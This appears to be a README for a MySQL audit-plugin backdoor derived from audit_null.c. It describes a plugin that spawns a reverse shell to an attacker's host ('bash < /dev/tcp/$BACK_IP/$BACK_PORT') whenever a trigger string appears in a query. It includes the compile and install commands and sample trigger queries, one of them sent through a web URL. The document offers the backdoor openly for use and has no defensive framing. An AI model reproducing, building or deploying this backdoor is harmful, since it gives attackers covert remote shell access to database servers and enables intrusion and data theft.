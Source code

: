 ####A tricked mysql audit plugin backdoor

Modified from 'audit_null.c' for official MySQL releases.

by t57root @ openwill.me 

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

This plugin watches the queries on the mysql server and will execute the shell command 'bash < /dev/tcp/$BACK_IP/$BACK_PORT >&0 2>&0 &' when there's specific string in the running query so we can get shell access with a reverse connection.

* Compile:

>>gcc -o audit_null.so audit_null.c \`mysql_config --cflags\` -shared -fPIC -DMYSQL_DYNAMIC_PLUGIN 

* Install:

>>\#cp audit_null.so /usr/lib/mysql/plugin/

>>mysql>install plugin NULL_AUDIT soname 'audit_null.so';

* Usage:

>>mysql>select * from news where id='openwill.me';

>>OR

>>http://www.hackshell.net/news.php?id='openwill.me'

More details available at [This link](http://example.net/)

